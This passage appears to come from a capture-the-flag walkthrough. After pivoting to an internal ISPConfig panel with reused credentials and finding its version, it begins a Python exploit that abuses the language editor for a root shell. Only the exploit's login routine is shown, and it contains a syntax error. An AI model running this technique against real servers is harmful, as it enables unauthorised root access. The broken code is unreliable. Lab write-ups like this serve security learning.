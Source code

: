 As `tobias` we can access to internal services that weren’t available before
<br/><br/>
![image.png]({{ '/assets/images/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91_image_19.png' | relative_url }})
<br/><br/>
In `localhost:8080` there is a web application with a login form, let’s proceed to forward it
<br/><br/>
![image.png]({{ '/assets/images/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91_image_20.png' | relative_url }})
<br/><br/>
`IPSCONFIG` is a control panel for linux servers, access it using the credentials obtained previously
<br/><br/>
![image.png]({{ '/assets/images/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91_image_21.png' | relative_url }})
<br/><br/>
![image.png]({{ '/assets/images/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91_image_22.png' | relative_url }})
<br/><br/>
While checking around, specifically in monitor section, an error is displayed revealing the current version of the software
<br/><br/>
![image.png]({{ '/assets/images/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91_image_23.png' | relative_url }})
<br/><br/>
Search on internet for vulnerabilities related with this version
<br/><br/>
![image.png]({{ '/assets/images/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91_image_24.png' | relative_url }})
<br/><br/>
If the admin can edit language it means we will have access as root in the machine
<br/><br/>
![image.png]({{ '/assets/images/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91/3504a2b6-e9c0-430d-b937-f7ad30743c1c-export-7da3f4a5-05b5-4c03-83a8-e4e8d58e7c91_image_25.png' | relative_url }})
<br/><br/>
Use the following script to exploit this vulnerability and spawn a shell with elevated privileges
<br/><br/>

```python
import requests
import sys
import base64
import string
import random

def ensure_url_format(url):
	if not url.startswith(("http://","https://")):
		raise ValueError("Url must start with http:// or https://")
	if no url.endswith("/"):
		url += "/"
	
	return url
	
def login(url, user, password, session):
	
	login_url = f"{url}login/"
	data = {
		'username':user,
		'password':password,
		's_mod':'login'
	}
	
	resp = session.post(login_url, data=data, verify=False)
	if 'Usename or password wrong' in resp.text:
		sys.exit('Login failed!!')
	print("[*] Login successful!")

```
